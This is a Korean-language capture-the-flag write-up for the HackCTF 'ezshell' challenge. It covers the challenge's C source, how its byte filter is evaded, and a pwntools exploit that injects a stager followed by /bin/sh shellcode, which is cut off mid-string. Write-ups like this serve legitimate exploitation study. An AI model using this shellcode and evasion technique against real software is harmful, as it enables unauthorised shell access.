 ```yaml
---
layout: post
title:  "HackCTF ezshell write-up"
date:   2020-03-22 19:45:55
image:  hackctf_ezshell.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled.png)

Full RELRO와 카나리가 걸려있다. 또한 PIE도 걸려있는데 현재 RWX가 있는걸로 봐서 쉘코드 관련한 문제로 보인다.

<br>

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%201.png)

바이너리를 실행시키면 처음에 입력을 받고 어떠한 값이 출력된다. 

<br>

**3) 코드흐름 파악**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
    
void Init(void)
{
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
}

int main(void)
{
    Init();

    char result[100] = "\x0F\x05\x48\x31\xED\x48\x31\xE4\x48\x31\xC0\x48\x31\xDB\x48\x31\xC9\x48\x31\xD2\x48\x31\xF6\x48\x31\xFF\x4D\x31\xC0\x4D\x31\xC9\x4D\x31\xD2\x4D\x31\xDB\x4D\x31\xE4\x4D\x31\xED\x4D\x31\xF6\x4D\x31\xFF";
    char shellcode[30];
    char filter[4] = {'\xb0', '\x3b', '\x0f', '\x05'};

    read(0, shellcode, 30);
    

    for (int i = 0; i <= 3; i ++)
    {
        if (strchr(shellcode, filter[i]))
        {
            puts("filtering :)");
            exit(1);
        }		
    }

    for (int i = 0; i < 30; i++)
    {
        if (!shellcode[i])
        {
            puts("null :)");
            exit(1);
        }
    }

    strcat(result, shellcode);
    (*(void (*)()) result + 2)();
}
```

<br>
이번 문제는 아예 코드를 줘버렸다. 코드의 흐름은 다음과 같다.



1. result배열에 어떠한 값이 들어가 있다. 해당 값을 디스어셈블시키면 다음과 같다.

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%202.png)

    처음에 syscall이 보이고 그 뒤에는 모든 레지스터들을 다 xor 연산하여 0으로 초기화 시킨다

2. shellcode 배열에 입력을 받는다
3. -
4. 입력한 shellcode안에 filter 배열에 들어있는 값이 존재하는지 확인하고 존재하면 filtering: 문자열이 출력되면서 종료된다.

    여기서 필터의 개수는 총 4개로서 \x0f\x05는 syscall을 뜻하고, \3b는 59로서 execve syscall을 할때 필요한 rax값이다. /xb0은 잘모르겠다

5. 그다음 또 반복문을 돌면서 입력한 shellcode 배열에 널값이 존재하는지 확인하고 있으면 종료된다.
6. 만약 shellcode 배열이 필터에 걸리지 않고 널바이트가 없다면, result+2 즉 syscall 그다음을 호출한다.


<br><br><br>


### 2. 접근방법

---

쉘코드를 작성해야한다. 길이제한은 30바이트로 저번 Unexploitable#4 문제에서 간단한 쉘코드를 만들었기 때문에 이를 참조하여 필터에 걸리지 않는 쉘코드를 짤것이다.

내가 작성한 쉘코드는 다음과 같다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ezshell/Untitled%203.png)

pwntools 의 asm기능을 이용하여 간단하게 구현하였다.

<br><br>

**시나리오**

1. syscall로 read함수를 호출하여 일반 인터넷에 있는 23바이트? 짜리 쉘코드를 삽입한다
2. jmp 로 쉘코드를 실행한다!

- **mov rsp, QWORD PTR fs:[rbx];**

    result 배열에 들어있는 쉘코드 때문에 rsp가 0이다. 따라서 위 코드를 진행해야 push나 pop 같은 명령어를 사용가능하다.

- **lea rsi, [rip-1];**

    현재 rip의 주소를 rsi에 복사를 한다. 단, 그냥 rip 이렇게 하면 널값이 들어가므로 -1 연산을 통해 널값을 없앤다. 즉 rsi에 실제 쉘코드가 들어갈 주소가 들어간다.

- **mov dx, 0xffff;**

    read함수의 입력 사이즈를 위해 삽입하였다.

- **jmp 0xffffffffffffffbb+5**

    현재 syscall 위치로 가야한다. 따라서 상대주소를 줘야하므로, 

    => "목적지 주소(syscall 위치) - 현 rip주소 - 5" 를 계산하여서 입력을 주면된다.

    근데 그냥 이렇게 jmp ~ 입력하면 에러가 난다. 따라서 위 사진처럼 입력해줘야한다.

    (vma는 base주소라고 생각하면 됨.)

    [jmp, call instruction 주소 계산](http://umbum.tistory.com/102)

<br>

사실 이렇게 syscall 위치의 상대주소를 구해도 실제 디버깅 해보면 틀리게 나온다. 따라서 직접 디버깅하면서 확인한 경과 위 공식?에서 +5를 해야지 실제 syscall 주소가 들어간다.


<br><br><br>


### 3. 풀이

---

최종 익스코드는 다음과 같다
```python
from pwn import *
context.arch="amd64"
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3036)
#p=process("./ezshell")
#gdb.attach(p,'code\nb *0xb92+$code\n')

shell="mov rsp,QWORD PTR fs:[rbx];"
shell+="lea rsi,[rip-1];"
shell+="mov dx,0xffff;"
shell=asm(shell)
shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFBB+5), vma=0x1, arch='amd64',os='linux')
shell=shell.ljust(30,'\xcc')
log.info(len(shell))
log.info(shell)
p.send(shell)
shell2 = "\x90"*0x100
shell2 +="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x$
pause()
p.sendline(shell2)
p.interactive()
```

<br><br><br>


### 4. 몰랐던 개념

---

- 쉘코드 관련 문제는 처음 풀어봤다. pzshell을 통해 복습겸 다시 익혀야겠다.
- 추가적으로 위 익스코드에서 처음에 sendline으로 보내면 다음 read가 개행떄문에 씹힌다. 따라서 send로 보내야한다